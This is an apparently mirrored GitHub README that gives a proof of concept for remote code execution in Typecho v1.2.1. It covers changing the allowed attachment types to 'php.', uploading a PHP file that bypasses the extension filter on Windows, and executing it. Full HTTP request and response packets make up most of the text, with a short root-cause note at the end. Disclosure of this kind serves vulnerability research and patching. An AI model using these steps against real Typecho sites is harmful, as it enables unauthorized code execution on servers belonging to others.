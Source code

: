 # Typecho-v1.2.1-RCE
typecho-v1.2.1-RCE

Edición rescatada de la fuente [https://github.com/MentalityXt/typecho-v1.2.1-RCE]

## Vulnerability to reproduce
Log in to the backend of the website. Locate the /admin/options-general.php file and add 'php.' to the '其他格式' `otros formatos` section at the bottom. Then click on '保存设置' `Guardar Ajustes` 


```php
POST /typecho/index.php/action/options-general?_=7f7f3849a454840627316bb52364d2fc HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 262
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/typecho/admin/options-general.php
Cookie: 49687d6f50b4bcdd180e408f21e5efa5__typecho_uid=1; 49687d6f50b4bcdd180e408f21e5efa5__typecho_authCode=%24T%24uKyiUEUfT3f8a523484b8bf9731cc8c1d2a8b6aa7; PHPSESSID=s25t07f2di5m8kfc5vuqf5bg7l; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1910606b29d5c2ce; DedeLoginTime=1686923767; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=64371f6768b13b59; _csrf_name_6f6a18a7=ca33b084396b5d22e954fe124954e4dc; _csrf_name_6f6a18a71BH21ANI1AGD297L1FF21LN02BGE1DNG=c51a2607b5a3e048
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

title=Hello+World&siteUrl=http%3A%2F%2F127.0.0.1%2Ftypecho&description=Your+description+here.&keywords=typecho%2Cphp%2Cblog&allowRegister=0&allowXmlRpc=2&timezone=28800&attachmentTypes%5B%5D=%40image%40&attachmentTypes%5B%5D=%40other%40&attachmentTypesOther=php.
```

![web](./typecho-V1.2.1_rce_01.png)

Visit the URL 'http://127.0.0.1/typecho/admin/write-post.php'. This is based on the current directory where I have set up. The actual directory is 'admin/write-post.php'. After entering, click on the '附件' `apéndice` button on the right side, and then click the highlighted button '选择文件上传' `seleccionar carga de archivo`. Upload a random PHP file here and the system will not block it. After successful upload, the file can still be executed and the PHP address will be returned.

![web](./typecho-V1.2.1_rce_02.png)

The following is the request packet.

```php
POST /typecho/index.php/action/upload?_=d84b30765596739f0c2d3724d7971184 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------163606809438821006984144374022
Content-Length: 519
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/typecho/admin/write-post.php
Cookie: 49687d6f50b4bcdd180e408f21e5efa5__typecho_uid=1; 49687d6f50b4bcdd180e408f21e5efa5__typecho_authCode=%24T%24uKyiUEUfT3f8a523484b8bf9731cc8c1d2a8b6aa7; PHPSESSID=s25t07f2di5m8kfc5vuqf5bg7l; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1910606b29d5c2ce; DedeLoginTime=1686923767; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=64371f6768b13b59; _csrf_name_6f6a18a7=ca33b084396b5d22e954fe124954e4dc; _csrf_name_6f6a18a71BH21ANI1AGD297L1FF21LN02BGE1DNG=c51a2607b5a3e048
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------163606809438821006984144374022
Content-Disposition: form-data; name="name"

20230616121905.php
-----------------------------163606809438821006984144374022
Content-Disposition: form-data; name="file"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php
phpinfo();
?>
-----------------------------163606809438821006984144374022--
```

The following is the response packet.

```php
HTTP/1.1 200 OK
Date: Fri, 16 Jun 2023 14:51:24 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
X-Powered-By: PHP/7.3.4
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Connection: close
Content-Type: application/json; charset=UTF-8
Content-Length: 303

["http:\/\/127.0.0.1\/typecho\/usr\/uploads\/2023\/06\/3042336957.php",{"cid":8,"title":"phpinfo.php","type":"php","size":21,"bytes":"1 Kb","isImage":false,"url":"http:\/\/127.0.0.1\/typecho\/usr\/uploads\/2023\/06\/3042336957.php","permalink":"http:\/\/127.0.0.1\/typecho\/index.php\/attachment\/8\/"}]
```

The requested URL is 'http://127.0.0.1/typecho/usr/uploads/2023/06/3042336957.php'.

![web](./typecho-V1.2.1_rce_03.png)

## Vulnerability Analysis
The website filtered extensions such as php, php5, php3, etc., but forgot about php. It can still be parsed successfully on Windows.
